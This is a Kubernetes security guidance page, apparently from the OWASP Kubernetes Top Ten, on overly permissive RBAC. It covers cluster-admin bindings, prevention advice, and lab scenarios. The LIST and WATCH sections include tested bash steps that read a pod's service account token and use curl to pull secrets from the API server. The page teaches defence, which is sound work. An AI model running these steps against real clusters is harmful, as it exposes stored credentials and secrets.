

---

layout: col-sidebar
title: "K03: Overly Permissive RBAC"
---

## Overview

[Role-Based Access
Control](https://kubernetes.io/docs/reference/access-authn-authz/rbac/) (RBAC)
is the primary authorization mechanism in Kubernetes and is responsible for
permissions over resources. These permissions combine verbs (get, create,
delete, etc.) with resources (pods, services, nodes, etc.) and can be namespace
or cluster scoped. A set of out of the box roles are provided that offer
reasonable default separation of responsibility depending on what actions a
client might want to perform. Configuring RBAC with least privilege enforcement
is a challenge for reasons we will explore below.



## Description

RBAC is an extremely powerful security enforcement mechanism in Kubernetes when
appropriately configured but can quickly become a massive risk to the cluster
and increase the blast radius in the event of a compromise.  Below are a few
examples of misconfigured RBAC:

## Unnecessary use of `cluster-admin`

When a subject such as a Service Account, User, or Group has access to the
built-in Kubernetes “superuser” called `cluster-admin` they are able to perform
any action on any resource within a cluster. This level of permission is
especially dangerous when used in a `ClusterRoleBinding` which grants full
control over every resource across the entire cluster. `cluster-admin` can also
be used as a `RoleBinding` which may also pose significant risk.

Below you will find the RBAC configuration of a popular OSS Kubernetes
development platform. It showcases a very dangerous `ClusterRoleBinding` which
is bound to the `default` service account. Why is this dangerous? It grants the
all-powerful `cluster-admin` privilege to every single Pod in the `default`
namespace. If a pod in the default namespace is compromised (think, Remote Code
Execution) then it is trivial for the attacker to compromise the entire cluster
by impersonating the service

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: redacted-rbac
subjects:
- kind: ServiceAccount
  name: default
  namespace: default
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

### How to Prevent

To reduce the risk of an attacker abusing RBAC configurations, it is important
to analyze your configurations continuously and ensure the principle of least
privilege is always enforced. Some recommendations are below:

- Reduce direct cluster access by end users when possible
- Don’t use Service Account Tokens outside of the cluster
- Avoid automatically mounting the default service account token
- Audit RBAC included with installed third-party components
- Deploy centralized polices to detect and block risky RBAC permissions
- Utilize `RoleBindings` to limit scope of permissions to particular namespaces
  vs. cluster-wide RBAC policies
- Follow the official [RBAC Good
  Practices](https://kubernetes.io/docs/concepts/security/rbac-good-practices/)
  in the Kubernetes docs

### Example Attack Scenarios

An OSS cluster observability tool is installed inside of a private Kubernetes
cluster by the platform engineering team. This tool has an included web UI for
debugging and analyzing traffic. The UI is accidentally exposed to the internet
through it’s included Service manifest - it uses type: LoadBalancer which spins
up an AWS ALB load balancer with a **public** IP address.

This hypothetical tool uses the following RBAC configuration:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: default-sa-namespace-admin
  namespace: prd
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: admin
subjects:
- apiGroup: rbac.authorization.k8s.io
  kind: User
  name: system:serviceaccount:prd:default
```

An attacker finds the open web UI and is able to get a shell on the running
container in the cluster. The default service account token in the `prd`
namespace is used by the web UI and the attacker is able to impersonate it to
call the Kubernetes API and perform elevated actions such as `describe secrets`
in the `kube-system` namespace. This is due to the `roleRef` which gives that
service account the built-in privilege `admin` in the entire cluster.

### References

Kubernetes RBAC: <https://kubernetes.io/docs/reference/access-authn-authz/rbac/>

RBAC Police Scanner: <https://github.com/PaloAltoNetworks/rbac-police>

Kubernetes RBAC Good Practices:
<https://kubernetes.io/docs/concepts/security/rbac-good-practices/>

## Unnecessary use of `LIST` permission

The list response contains all items in full, not just their name. Accounts with
`LIST` permission cannot get a specific item from the API, but will get all of
them in full when they list.

kubectl hides this by default by choosing to only show you the object names, but
it has all attributes of those objects.

### How to Prevent

Only grant `LIST` permission if you are also allowing that account to `GET` all
of that resource  

### Example Attack Scenario

```bash

# tested on
# minikube version: v1.32.0 (commit: 8220a6eb95f0a4d75f7f2d7b14cef975f050512d)
# kubectl version: Client Version: v1.28.4, Kustomize Version: v5.0.4-0.20230601165947-6ce0bf390ce3, Server Version: v1.28.3

# export names
export serviceName=list-sa
export podName=my-list-pod
export roleName=role-list-secret
export roleBindingName=rolebinding-list-secrets-default-ns

# create list-sa service account
kubectl create serviceaccount $serviceName

# create RBAC rules and binding it
kubectl create role $roleName --verb=list --resource=secrets
kubectl create rolebinding $roleBindingName --role=$roleName --serviceaccount=default:$serviceName

# create secret abc
kubectl create secret generic abc --from-literal=secretAuthToken=verySecure123

# create pod
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: $podName
spec:
  containers:
    - image: nginx
      name: nginx
  serviceAccountName: $serviceName
  automountServiceAccountToken: true
EOF

# enter in the pod
kubectl exec -it $podName bash

# (inside the pod) get sa token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)

# (inside the pod) Prove we cannot get that secret
curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets/abc --insecure
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "secrets \"abc\" is forbidden: User \"system:serviceaccount:default:list-sa\" cannot get resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "reason": "Forbidden",
  "details": {
    "name": "abc",
    "kind": "secrets"
  },
  "code": 403
}

# (inside the pod) Now to get all secrets in the default namespace, despite not having "get" permission
curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets --insecure
{
  "kind": "SecretList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "981"
  },
  "items": [
    {
    REDACTED : REDACTED
  ]
}

# Cleanup
kubectl delete serviceaccount $serviceName
kubectl delete role $roleName 
kubectl delete rolebinding $roleBindingName --role=$roleName --serviceaccount=default:$serviceName
kubectl delete secret abc
```

### References

Why list is a scary permission on k8s:
<https://tales.fromprod.com/2022/202/Why-Listing-Is-Scary_On-K8s.html>
Kubernetes security recommendations for developers:
<https://kubernetes.io/docs/concepts/configuration/secret/#security-recommendations-for-developers>

## Unnecessary use of `WATCH` permission

The watch response contains all items in full, not just their name when they're
updated. Accounts with `WATCH` permission cannot get a specific item or list all
items from the API, but will get all of them in full when during the watch call,
and get all new items if the watch isn't interrupted.

### How to Prevent

Only grant `WATCH` permission if you are also allowing that account to `GET` and
`LIST` all of that resource  


### Example Attack Scenarios

```bash


# tested on
# minikube version: v1.32.0 (commit: 8220a6eb95f0a4d75f7f2d7b14cef975f050512d)
# kubectl version: Client Version: v1.28.4, Kustomize Version: v5.0.4-0.20230601165947-6ce0bf390ce3, Server Version: v1.28.3

# export names
export serviceName=watch-sa
export podName=my-watch-pod
export roleName=role-watch-secret
export roleBindingName=rolebinding-watch-secrets-default-ns

# create list-sa service account
kubectl create serviceaccount $serviceName

# create RBAC rules and binding it
kubectl create role $roleName --verb=watch --resource=secrets
kubectl create rolebinding $roleBindingName --role=$roleName --serviceaccount=default:$serviceName

# Create a secret to get
kubectl create secret generic  abcd  --from-literal=secretPassword=verySecure

# create pod
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: $podName
spec:
  containers:
    - image: nginx
      name: nginx
  serviceAccountName: $serviceName
  automountServiceAccountToken: true
EOF


# enter in the pod
kubectl exec -it $podName bash

# (inside the pod) get sa token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)

# (inside the pod) try to retrieve the secret
curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets/abcd --insecure
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "secrets \"abcd\" is forbidden: User \"system:serviceaccount:default:watch-sa\" cannot get resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "reason": "Forbidden",
  "details": {
    "name": "abcd",
    "kind": "secrets"
  },
  "code": 403
}

curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets --insecure
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "secrets is forbidden: User \"system:serviceaccount:default:watch-sa\" cannot list resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "reason": "Forbidden",
  "details": {
    "kind": "secrets"
  },
  "code": 403
}
  
# Now to get all secrets in the default namespace, despite not having "get" permission
curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets?watch=true --insecure
{"type":"ADDED","object":{"kind":"Secret","apiVersion":"v1","metadata":{"name":"abcd","namespace":"default","uid":"bd1b0f74-ce54-47c4-a1dc-91893848e4ed","resourceVersion":"477","creationTimestamp":"2023-12-18T13:30:41Z","managedFields":[{"manager":"kubectl-create","operation":"Update","apiVersion":"v1","time":"2023-12-18T13:30:41Z","fieldsType":"FieldsV1","fieldsV1":{"f:data":{".":{},"f:secretPassword":{}},"f:type":{}}}]},"data":{"secretPassword":"dmVyeVNlY3VyZQ=="},"type":"Opaque"}}"

# crtl+c to stop curl as this http request will continue

# Proving that we got the full secret
echo "dmVyeVNlY3VyZQ==" | base64 -d
verySecure

# Cleanup
kubectl delete serviceaccount $serviceName
kubectl delete role $roleName 
kubectl delete rolebinding $roleBindingName --role=$roleName --serviceaccount=default:$serviceName
kubectl delete secret abcd

```

### References

Kubernetes security recommendations for developers:
<https://kubernetes.io/docs/concepts/configuration/secret/#security-recommendations-for-developers>
